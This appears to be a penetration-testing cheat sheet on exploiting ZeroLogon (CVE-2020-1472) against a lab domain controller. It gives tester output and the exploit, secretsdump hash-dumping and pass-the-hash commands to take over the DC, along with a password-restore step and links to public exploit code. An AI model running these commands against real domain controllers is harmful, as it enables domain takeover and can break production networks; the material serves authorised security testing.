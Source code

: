 # Abusing ZeroLogon

- Attacking DC and setting pass to null and taking over DC **CAREFUL COULD DESTROY DC**
- Check priorly if the target is vulnerable 
  *Note: Useful for a pentest to mention to the customer that they are vulnerable without actually doing the exploitation*
  ```
  ┌──(root💀kali)-[/home/kali/CVE-2020-1472]
  └─# python3 zerologon_tester.py HYDRA-DC 10.0.2.5
  Performing authentication attempts...
  ===================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
  Success! DC can be fully compromised by a Zerologon attack.
  ```
- Changing the password to empty string: `python3 exploit.py HYDRA-DC 10.0.2.5`
- Check if it worked: `secretsdump.py -just-dc DOMAIN/DOMAIN-CONTROLLER\$@IP-OF-DC`
  Example: `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.2.5`
- If we were able to dump hashes without typing password it means we owned the DC.
- Restore the machine
  - Use the admin hash to get the plain_password_hex `secretsdump.py administrator@10.0.2.5 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
  - Restore the password `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.5 -hexpass <Put here the hexpass you just got>`  
    The console should print `Change password OK`

## Zerologon - Resources

{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %} What is ZeroLogon? {% endembed %}
{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %} dirkjanm CVE-2020-1472 {% endembed %}
{% embed url="https://github.com/SecuraBV/CVE-2020-1472" %} SecuraBV ZeroLogon Checker {% endembed %}

